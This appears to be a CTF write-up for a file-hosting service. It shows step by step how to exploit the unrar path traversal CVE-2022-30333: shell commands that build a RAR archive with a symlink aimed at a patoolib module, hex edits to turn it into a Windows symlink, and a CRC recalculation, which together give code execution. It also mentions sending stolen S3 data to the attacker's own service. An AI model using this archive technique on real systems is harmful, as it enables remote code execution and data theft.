 # SH

## Description

SH is a service for hosting static files. There are two routes in application:

1. `@app.post("/bucket/~{bucket}")` for create an s3 bucket with a given name and files from archive;
2. `@app.get("/~{bucket}/{file}")` for get a file from bucket.

## Steps to exploit

- To hack this service you can exploit [CVE-2022-30333](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-30333) bug and upload a malicious `rar` archive.
- Service will extract files from the archive and can rewrite any python module at this time (i.e. module for some archive type in patoolib).
- Next, the service will extract other embedded archives and import malicious module for this type of arсhive and execute arbitrary code.
- In this code you can get needed data from s3 and send it to own service over network.

## Howto create a vuln archive

To create an archive on Windows you can follow [this instruction](https://attackerkb.com/topics/RCa4EIZdbZ/cve-2022-30333/rapid7-analysis). But you can create such archive in GNU/Linux:

1. Create files and archive

```
$ ln -s "..\..\..\..\..\..\..\..\..\..\..\..\..\..\home/sh/.local/lib/python3.10/site-packages/patoolib/programs/dpkg.py" prog
$ echo 'print("Hack!\n")' > Prog
$ echo 'nothing' > p.deb
$ rar a -ol -ai -cl h.rar prog Prog p.deb
```

2. Review archive

```
$ unrar lt h.rar prog

UNRAR 5.61 beta 1 freeware      Copyright (c) 1993-2018 Alexander Roshal

Archive: h.rar
Details: RAR 5

        Name: prog
        Type: Unix symbolic link
      Target: ..\..\..\..\..\..\..\..\..\..\..\..\..\..\home/sh/.local/lib/python3.10/site-packages/patoolib/programs/dpkg.py
        Size: 111
 Packed size: 0
       Ratio: 0%
       mtime: 2022-08-07 17:26:16,130836090
  Attributes: -rw-rw-rw-
       CRC32: 00000000
     Host OS: Unix
 Compression: RAR 5.0(v50) -m0 -md=32M

        Name: prog
        Type: File
        Size: 17
 Packed size: 17
       Ratio: 100%
       mtime: 2022-08-07 17:26:19,450867319
  Attributes: -rw-rw-rw-
       CRC32: 58075175
     Host OS: Unix
 Compression: RAR 5.0(v50) -m0 -md=32M
```

3. We need fix first `prog` file: change `Unix symbolic link` to `Windows symbol link`, Host OS from `Unix` to `Windows` and then recalc CRC32 of header. You can found details about `RAR` format in [official docs](https://www.rarlab.com/technote.htm). Original arhive:

```
$ xxd h.rar
00000000: 5261 7221 1a07 0100 3392 b5e5 0a01 0506  Rar!....3.......
00000010: 0005 0101 8080 0075 be0e 9894 0102 037f  .......u........
00000020: 0004 6fb6 8302 0000 0000 8040 0104 7072  ..o........@..pr
00000030: 6f67 0a03 1368 afef 627a 66cc 0773 0501  og...h..bzf..s..
00000040: 006f 2e2e 5c2e 2e5c 2e2e 5c2e 2e5c 2e2e  .o..\..\..\..\..
00000050: 5c2e 2e5c 2e2e 5c2e 2e5c 2e2e 5c2e 2e5c  \..\..\..\..\..\
00000060: 2e2e 5c2e 2e5c 2e2e 5c2e 2e5c 686f 6d65  ..\..\..\..\home
00000070: 2f73 682f 2e6c 6f63 616c 2f6c 6962 2f70  /sh/.local/lib/p
00000080: 7974 686f 6e33 2e31 302f 7369 7465 2d70  ython3.10/site-p
00000090: 6163 6b61 6765 732f 7061 746f 6f6c 6962  ackages/patoolib
000000a0: 2f70 726f 6772 616d 732f 6470 6b67 2e70  /programs/dpkg.p
000000b0: 7977 7737 2522 0203 0b91 0004 9100 b683  yww7%"..........
000000c0: 0275 5107 5880 4001 0470 726f 670a 0313  .uQ.X.@..prog...
000000d0: 6baf ef62 77b0 df1a 7072 696e 7428 2248  k..bw...print("H
000000e0: 6163 6b21 5c6e 2229 0a4b 2815 ce23 0203  ack!\n").K(..#..
000000f0: 0b88 0004 8800 b683 026a 6842 2a80 4001  .........jhB*.@.
00000100: 0570 2e64 6562 0a03 136e afef 625a 9e82  .p.deb...n..bZ..
00000110: 036e 6f74 6869 6e67 0a1d 7756 5103 0504  .nothing..wVQ...
00000120: 00                                       .
$
```

4. Recalc CRC32

```
$ python3
>>> import zlib
>>> data = "940102037f00046fb68302000000008040000470726f670a031368afef627a66cc07730502006f2e2e5c2e2e5c2e2e5c2e2e5c2e2e5c2e2e5c2e2e5c2e2e5c2e2e5c2e2e5c2e2e5c2e2e5c2e2e5c2e2e5c686f6d652f73682f2e6c6f63616c2f6c69622f707974686f6e332e31302f736974652d7061636b616765732f7061746f6f6c69622f70726f6772616d732f64706b672e7079"
>>> hex(zlib.crc32(bytes.fromhex(data)))
'0x7cdb6d3'
```

5. And then change checksum in file. Final archive:

```
$ xxd hh.rar
00000000: 5261 7221 1a07 0100 3392 b5e5 0a01 0506  Rar!....3.......
00000010: 0005 0101 8080 00d3 b6cd 0794 0102 037f  ................
00000020: 0004 6fb6 8302 0000 0000 8040 0004 7072  ..o........@..pr
00000030: 6f67 0a03 1368 afef 627a 66cc 0773 0502  og...h..bzf..s..
00000040: 006f 2e2e 5c2e 2e5c 2e2e 5c2e 2e5c 2e2e  .o..\..\..\..\..
00000050: 5c2e 2e5c 2e2e 5c2e 2e5c 2e2e 5c2e 2e5c  \..\..\..\..\..\
00000060: 2e2e 5c2e 2e5c 2e2e 5c2e 2e5c 686f 6d65  ..\..\..\..\home
00000070: 2f73 682f 2e6c 6f63 616c 2f6c 6962 2f70  /sh/.local/lib/p
00000080: 7974 686f 6e33 2e31 302f 7369 7465 2d70  ython3.10/site-p
00000090: 6163 6b61 6765 732f 7061 746f 6f6c 6962  ackages/patoolib
000000a0: 2f70 726f 6772 616d 732f 6470 6b67 2e70  /programs/dpkg.p
000000b0: 7977 7737 2522 0203 0b91 0004 9100 b683  yww7%"..........
000000c0: 0275 5107 5880 4001 0470 726f 670a 0313  .uQ.X.@..prog...
000000d0: 6baf ef62 77b0 df1a 7072 696e 7428 2248  k..bw...print("H
000000e0: 6163 6b21 5c6e 2229 0a4b 2815 ce23 0203  ack!\n").K(..#..
000000f0: 0b88 0004 8800 b683 026a 6842 2a80 4001  .........jhB*.@.
00000100: 0570 2e64 6562 0a03 136e afef 625a 9e82  .p.deb...n..bZ..
00000110: 036e 6f74 6869 6e67 0a1d 7756 5103 0504  .nothing..wVQ...
00000120: 00                                       .
$
```

6. Review archive

```
$ unrar lt hh.rar prog

UNRAR 5.61 beta 1 freeware      Copyright (c) 1993-2018 Alexander Roshal

Archive: hh.rar
Details: RAR 5

        Name: prog
        Type: Windows symbolic link
      Target: ..\..\..\..\..\..\..\..\..\..\..\..\..\..\home/sh/.local/lib/python3.10/site-packages/patoolib/programs/dpkg.py
        Size: 111
 Packed size: 0
       Ratio: 0%
       mtime: 2022-08-07 17:26:16,130836090
  Attributes: ..ADSH.
       CRC32: 00000000
     Host OS: Windows
 Compression: RAR 5.0(v50) -m0 -md=32M

        Name: prog
        Type: File
        Size: 17
 Packed size: 17
       Ratio: 100%
       mtime: 2022-08-07 17:26:19,450867319
  Attributes: -rw-rw-rw-
       CRC32: 58075175
     Host OS: Unix
 Compression: RAR 5.0(v50) -m0 -md=32M

$
```
